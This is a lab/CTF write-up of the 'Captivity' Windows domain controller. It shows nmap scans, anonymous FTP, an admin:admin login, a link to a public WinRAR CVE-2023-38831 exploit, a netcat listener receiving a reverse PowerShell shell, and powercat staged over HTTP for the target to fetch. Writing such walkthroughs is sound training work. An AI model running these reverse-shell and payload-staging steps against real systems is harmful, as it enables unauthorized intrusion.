


# Captivity

## High Level Overview
Captivity is a medium-level Windows machine that is vulnerable to CVE-2023-38831 in its file parser feature. After gaining a foothold on the system, we discovered that Active Directory Domain Services is installed, effectively making the machine a domain controller. Additionally, we identified a vulnerable user object with world-writable permissions. This user is a member of the 'Certificate Authority Admins' group, granting them the ability to publish certificates. Furthermore, we identified a misconfigured certificate template with the 'CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT' attribute. We proceeded to request a certificate using this template, impersonating the administrator in order to escalate our privileges.

## Enumerating the target
Run a full-range port scan to find all open ports. 
```
┌──(kali㉿kali)-[~/Captivity]
└─$ nmap -p- 192.168.100.130
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-29 04:36 EDT
Nmap scan report for 192.168.100.130
Host is up (0.00091s latency).
Not shown: 65505 closed tcp ports (conn-refused)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5357/tcp  open  wsdapi
5985/tcp  open  wsman
8000/tcp  open  http-alt
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49672/tcp open  unknown
49679/tcp open  unknown
49680/tcp open  unknown
49683/tcp open  unknown
49704/tcp open  unknown
49710/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 50.15 seconds
```

Run service scan on open ports. 
```
┌──(kali㉿kali)-[~/Captivity]
└─$ nmap -p21,22,53,80,88,135,139,389,445,464,593,636,3268,3269,5357,5985,8000,9389,47001 -sC -sV -T5 192.168.100.130
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-29 04:39 EDT
Stats: 0:01:16 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 94.74% done; ETC: 04:40 (0:00:04 remaining)
Nmap scan report for 192.168.100.130
Host is up (0.00066s latency).

PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_09-19-23  12:54PM       <DIR>          setup
| ftp-syst: 
|_  SYST: Windows_NT
22/tcp    open  ssh           OpenSSH for_Windows_8.1 (protocol 2.0)
| ssh-hostkey: 
|   3072 26:1c:4e:d1:5d:ec:19:7e:1b:af:b5:77:ed:10:bd:4b (RSA)
|   256 35:1d:11:a9:6f:47:3e:75:bd:eb:2a:aa:99:6d:73:1c (ECDSA)
|_  256 d3:d5:58:40:6a:42:c6:8f:2f:ea:fa:51:a3:2c:45:29 (ED25519)
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Server returned status 401 but no WWW-Authenticate header.
|_http-title: 401 - Unauthorized: Access is denied due to invalid credentials.
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-09-29 08:39:37Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: capt.org0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.capt.org
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.capt.org
| Not valid before: 2023-09-19T17:59:37
|_Not valid after:  2024-09-18T17:59:37
|_ssl-date: 2023-09-29T08:41:11+00:00; +25s from scanner time.
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: capt.org0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.capt.org
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.capt.org
| Not valid before: 2023-09-19T17:59:37
|_Not valid after:  2024-09-18T17:59:37
|_ssl-date: 2023-09-29T08:41:11+00:00; +25s from scanner time.
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: capt.org0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.capt.org
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.capt.org
| Not valid before: 2023-09-19T17:59:37
|_Not valid after:  2024-09-18T17:59:37
|_ssl-date: 2023-09-29T08:41:11+00:00; +25s from scanner time.
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: capt.org0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.capt.org
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.capt.org
| Not valid before: 2023-09-19T17:59:37
|_Not valid after:  2024-09-18T17:59:37
|_ssl-date: 2023-09-29T08:41:11+00:00; +25s from scanner time.
5357/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
8000/tcp  open  http-alt      Werkzeug/2.3.7 Python/3.11.5
|_http-server-header: Werkzeug/2.3.7 Python/3.11.5
| fingerprint-strings: 
|   FourOhFourRequest: 
...
|_http-title: File Hosting
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
...
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_nbstat: NetBIOS name: DC01, NetBIOS user: <unknown>, NetBIOS MAC: 00:0c:29:94:0e:fd (VMware)
| smb2-time: 
|   date: 2023-09-29T08:41:04
|_  start_date: N/A
|_clock-skew: mean: 24s, deviation: 0s, median: 24s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 101.55 seconds
```

## Enumerating Services 

### FTP 

Nmap identified a lot of open ports. Ports 88 (kerberos) and 389 (ldap) indicate that this machine is a domain controller. 

Let's start service enumeration with port 21. As shown below, anonymous login is allowed for READ access. 

```
┌──(kali㉿kali)-[~/Captivity]
└─$ ftp 192.168.100.130
Connected to 192.168.100.130.
220 Microsoft FTP Service
Name (192.168.100.130:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||49790|)
125 Data connection already open; Transfer starting.
09-19-23  12:54PM       <DIR>          setup
226 Transfer complete.
ftp> cd setup
250 CWD command successful.
ftp> ls
229 Entering Extended Passive Mode (|||49791|)
125 Data connection already open; Transfer starting.
09-19-23  10:58AM             61263968 Git-2.42.0.2-64-bit.exe
09-19-23  11:00AM             25932664 python-3.11.5-amd64.exe
09-19-23  10:56AM              3585248 winrar-x64-621.exe
226 Transfer complete.
ftp> exit
221 Goodbye.
```

Three .exe files are hosted on /setup directory. These won't give us anything useful other than information about the installed applications on the system. For example, winrar-x64-621.exe (version 6.21) is [vulnerable](https://alirodoplu.gitbook.io/ali-rodoplu/attack/exploit-the-winrar-cve-2023-38831) to CVE-2023-38831. If we find a way to exploit this, we may get command execution. 

### Web Services
Web service running on port 80 requires windows authentication. We don't currently have any domain credentials, so we will pass it for now. Moreover, running fuzzers and other scans don't reveal anything interesting.   


Web service on port 8000 appears to be a file hosting application. It, too, requires authentication. 


However, attempting simple admin:admin let's us in. 


```
Please note that if you upload archive files, our application will unarchive and check for possible viruses. 
```

the one that worked: https://github.com/Malwareman007/CVE-2023-38831

```
┌──(kali㉿kali)-[~/Captivity]
└─$ nc -nvlp 443
listening on [any] 443 ...
connect to [192.168.100.132] from (UNKNOWN) [192.168.100.130] 49934
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Apps\Parser> 
```

```
┌──(kali㉿kali)-[~/Captivity]
└─$ wget https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1
--2023-09-29 04:59:38--  https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.110.133, 185.199.111.133, 185.199.108.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.110.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 37667 (37K) [text/plain]
Saving to: ‘powercat.ps1’

powercat.ps1                      100%[===========================================================>]  36.78K  --.-KB/s    in 0.03s   

2023-09-29 04:59:39 (1.18 MB/s) - ‘powercat.ps1’ saved [37667/37667]

                                                                                                                                      
┌──(kali㉿kali)-[~/Captivity]
└─$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.100.130 - - [29/Sep/2023 05:15:27] "GET /powercat.ps1 HTTP/1.1" 200 -
```

